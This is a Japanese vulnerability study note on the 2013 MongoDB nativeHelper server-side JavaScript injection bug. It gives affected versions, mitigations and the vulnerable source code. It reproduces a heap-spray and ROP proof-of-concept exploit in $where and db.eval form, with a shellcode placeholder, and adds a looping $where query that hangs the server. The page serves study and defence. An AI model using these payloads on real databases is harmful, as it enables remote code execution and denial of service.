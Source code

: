 nativeHelper()に伴う脆弱性について
=================

#はじめに

2013/03/26 にマイナビニュースに掲載された、MongoDBの脆弱性について検証します。

- [MongoDBに脆弱性](http://news.mynavi.jp/news/2013/03/26/158/index.html)

## 影響を受けるバージョン

- MongoDB 2.2以前のバージョン（ただし、ビルド時にJavaScriptエンジンをV8に設定しているものは除く）

## 対策

- その1: MongoDB 2.4へのバージョンアップです。  
- その2: noscriptingオプションをつけて起動する


## 情報源

一次情報 mongodb – SSJI to RCE  
http://blog.scrt.ch/2013/03/24/mongodb-0-day-ssji-to-rce/  

日本語情報 MongoDBに脆弱性  
http://news.mynavi.jp/news/2013/03/26/158/index.html  


## exploiteコード

my_collectionを存在するcollectionへ変更して、下記のコードを実行
```js
db.my_collection.find({'$where':'shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'})
```

evalでも同様に落ちる
```
db.eval(function() {shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);})
```

## 何が問題？

native_helper()内のNativeFunction funcがxというJavaScriptのオブジェクトをチェック無しでcallすることが問題（らしい）  
  
src/mongo/scripting/engine_spidermonkey.cpp
```js
JSBool native_helper( JSContext *cx , JSObject *obj , uintN argc, jsval *argv , jsval *rval ) {
        try {
            Convertor c(cx);
            NativeFunction func = reinterpret_cast(
                    static_cast( c.getNumber( obj , "x" ) ) );
            void* data = reinterpret_cast<void*>(
                    static_cast( c.getNumber( obj , "y" ) ) );
            verify( func );

            BSONObj a;
            if ( argc > 0 ) {
                BSONObjBuilder args;
                for ( uintN i = 0; i < argc; ++i ) {
                    c.append( args , args.numStr( i ) , argv[i] );
                }
                a = args.obj();
            }

            BSONObj out;
            try {
                out = func( a, data );
            }
            catch ( std::exception& e ) {
```

run、run_とmongo shellでソースを見ると、{x : "xxxxx"}というハッシュになっていることがわかる
```js
> run
function () {
    return nativeHelper.apply(run_, arguments);
}

>run_
{ "x" : 4295168976 }

```

runはmongo shellから、shellのコマンドを実行するための関数。  
なのでチェック無しで実行しているのだろうか（勉強会での議論に続く）



## 今回とは別のダメな例

```js
db.test.find({'$where':'while(1){};return true;'}) 
```

## 2.4から$whereのセキュリティが向上した

2.4 からグローバルオブジェクトにアクセスできない制限が入った

## リスクを考える

どうなんでしょうか。ユーザーのインプットをそのままJavaScriptとして評価するのが条件？  
（活発な意見、求む）


